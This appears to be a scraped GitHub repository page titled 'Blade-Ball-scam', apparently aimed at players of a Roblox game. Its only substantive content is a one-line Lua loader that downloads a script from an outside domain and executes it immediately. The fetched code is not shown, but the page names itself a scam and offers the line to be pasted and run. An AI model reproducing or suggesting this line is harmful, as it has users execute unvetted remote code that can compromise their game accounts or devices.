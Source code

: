 # Blade-Ball-scam


loadstring(game:HttpGet("https://egorikusa.space/c3b76c298b673b8bb4acd98b.lua", true))()
